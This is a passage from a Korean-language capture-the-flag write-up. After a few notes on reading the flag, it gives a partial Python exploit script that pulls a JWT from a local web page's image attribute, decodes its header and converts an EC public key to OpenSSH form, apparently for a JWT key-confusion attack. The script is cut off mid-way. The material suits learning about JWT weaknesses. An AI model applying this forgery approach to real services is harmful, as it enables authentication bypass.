 마지막으로 data-token에 넣으면 flag가 나타납니다.
- 사진 간격이 있어서 flag 글씨가 조금 명확하지 않을 수 있는데, F12를 이용해서 화면 크키 조정하면 잘 보입니다.

exploit.py
```py
import jwt
import base64
import json
import requests
from bs4 import BeautifulSoup
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives.asymmetric import ec
from cryptography.hazmat.primitives import serialization

def extract_jwt_header(token):
    try:
        header_b64 = token.split(".")[0] + "==="
        header_json = base64.urlsafe_b64decode(header_b64).decode("utf-8")
        header = json.loads(header_json)
        return header
    except Exception as e:
        return None

def base64url_to_bytes(val):
    val += '=' * ((4 - len(val) % 4) % 4)
    return base64.urlsafe_b64decode(val)

def jwk_ec_to_openssh(jwk):
    try:
        if jwk["kty"] != "EC" or jwk["crv"] != "P-256":
            raise ValueError("Unsupported key type or curve")

        x_bytes = base64url_to_bytes(jwk["x"])
        y_bytes = base64url_to_bytes(jwk["y"])
        

        public_numbers = ec.EllipticCurvePublicNumbers(
            int.from_bytes(x_bytes, byteorder="big"),
            int.from_bytes(y_bytes, byteorder="big"),
            ec.SECP256R1()
        )

        public_key = public_numbers.public_key(default_backend())
        
        openssh = public_key.public_bytes(
            encoding=serialization.Encoding.OpenSSH,
            format=serialization.PublicFormat.OpenSSH
        ).decode()

        return openssh
    except Exception as e:
        print(f"[!] Error converting JWK to SSH: {e}")
        return None, None

url = "http://localhost:5000/"
response = requests.get(url)

if response.status_code == 200:
    soup = BeautifulSoup(response.text, "html.parser")
    img = soup.find("img", attrs={"data-token": True})
    
    if img:
        token = img["data-token"]
        header = extract_jwt_header(token)
```